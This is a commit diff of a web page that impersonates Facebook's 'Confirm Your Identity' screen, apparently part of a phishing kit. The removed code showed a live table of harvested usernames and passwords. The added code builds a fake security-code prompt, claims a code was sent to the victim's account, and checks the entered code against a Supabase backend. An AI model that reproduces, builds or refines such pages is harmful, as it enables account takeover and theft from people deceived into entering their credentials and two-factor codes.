

Before and after one commit to lindamarie-11/facebook-login-page, a website: page code.html in a window 1280 px wide. Shown: the part 366-744 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update code.html

```diff
--- a/code.html
+++ b/code.html
@@ -4,6 +4,7 @@
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1" />
   <title>Facebook – Confirm Your Identity</title>
+  <script src="https://cdn.jsdelivr.net/npm/@supabase/supabase-js"></script>
   <style>
     body {
       background-color: #f0f2f5;
@@ -41,19 +42,32 @@
       margin-bottom: 25px;
       line-height: 1.4;
     }
-    table {
+    input[type="text"] {
       width: 100%;
-      border-collapse: collapse;
-      margin-top: 20px;
+      padding: 12px;
+      font-size: 16px;
+      border: 1px solid #ccc;
+      border-radius: 6px;
+      margin-bottom: 20px;
     }
-    th, td {
-      padding: 10px;
-      border-bottom: 1px solid #ccc;
-      text-align: left;
-    }
-    th {
+    .btn {
+      width: 100%;
       background-color: #1877f2;
       color: white;
+      border: none;
+      padding: 12px;
+      font-size: 16px;
+      border-radius: 6px;
+      cursor: pointer;
+      margin-bottom: 15px;
+    }
+    .resend-link {
+      font-size: 13px;
+      color: #1877f2;
+      cursor: pointer;
+    }
+    .resend-link:hover {
+      text-decoration: underline;
     }
     .meta-footer {
       position: fixed;
@@ -90,20 +104,12 @@
     <div class="fb-logo">
       <img src="https://upload.wikimedia.org/wikipedia/commons/0/05/Facebook_Logo_%282019%29.png" alt="Facebook Logo" />
     </div>
-    <h2>Login Records</h2>
-    <p>Live view of usernames and passwords submitted.</p>
+    <h2>Enter Security Code</h2>
+    <p id="confirmation-msg"></p>
 
-    <table>
-      <thead>
-        <tr>
-          <th>Username</th>
-          <th>Password</th>
-        </tr>
-      </thead>
-      <tbody id="logins-table-body">
-        <!-- Dynamic rows -->
-      </tbody>
-    </table>
+    <input type="text" id="code-input" placeholder="Enter code" maxlength="20" />
+    <button class="btn" onclick="verifyCode()">Continue</button>
+    <div class="resend-link" onclick="alert('A new code has been sent.')">Didn't get the code?</div>
   </div>
 
   <div class="meta-footer">
@@ -114,11 +120,10 @@
     <div class="bottom-line">&copy; 2025 Meta Platforms, Inc.</div>
   </div>
 
-  <script src="https://cdn.jsdelivr.net/npm/@supabase/supabase-js"></script>
   <script>
-  // Supabase setup
+    // Supabase credentials
     const SUPABASE_URL = 'https://scserlwosxrmnvomipxt.supabase.co';
-  const SUPABASE_ANON_KEY = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...'; // use your full anon key
+    const SUPABASE_ANON_KEY = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...'; // paste full anon key here
     const supabase = supabase.createClient(SUPABASE_URL, SUPABASE_ANON_KEY);
 
     window.onload = function () {
@@ -126,8 +131,7 @@
       const msgEl = document.getElementById("confirmation-msg");
 
       if (!user) {
-      msgEl.textContent =
-        "To confirm it's really you trying to log in, we sent a code to your account. Enter it below to continue.";
+        msgEl.textContent = "To confirm it's really you trying to log in, we sent a code to your account. Enter it below to continue.";
         return;
       }
 
@@ -155,7 +159,6 @@
       const codeInput = document.getElementById("code-input");
       const code = codeInput.value.trim();
 
-    // Remove previous error state
       const existingError = document.querySelector(".error-message");
       if (existingError) existingError.remove();
       codeInput.style.borderColor = "#ccc";
@@ -177,9 +180,11 @@
 
       try {
         const { data, error } = await supabase
-        .from("codes") // table name
+          .from("codes")
           .select("*")
-        .eq("code", code) // column name
+          .eq("code", code)
+          .order("created_at", { ascending: false })
+          .limit(1)
           .single();
 
         if (error || !data) {
@@ -192,6 +197,5 @@
       }
     }
   </script>
-
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
